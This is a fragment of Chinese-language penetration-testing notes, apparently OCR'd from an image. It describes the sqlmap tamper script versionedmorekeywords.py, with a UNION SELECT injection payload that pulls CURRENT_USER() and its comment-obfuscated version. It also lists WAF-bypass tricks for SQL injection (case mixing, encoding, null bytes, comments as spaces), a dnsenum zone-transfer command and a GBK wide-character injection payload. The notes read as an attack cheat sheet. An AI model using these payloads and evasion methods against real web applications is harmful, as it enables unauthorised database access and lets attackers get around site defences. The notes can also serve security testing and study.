 
    (34) versionedmorekeywords.py 对关键字条件注释 
    Example: 
    Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 
    Output: 1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
    Requirement: 
    MySQL >= 5.1.13


## 绕过
sql注入绕行waf:；POST ，cookie中转,大小写混合，替换关键字，使用编码，使用注释，等价函数和命令，使用特殊符号，http参数控制，pwn ,select \`version()\`
sel%00ect
%20=>空格
/!**/ => 空格

4. 域传送:dnsenum -enum xxx.com 检测域传送
5. http://www.dmzlab.com/77396.html  
6. 宽字符注入：'aaa%df' WHERE 1=1 --' 
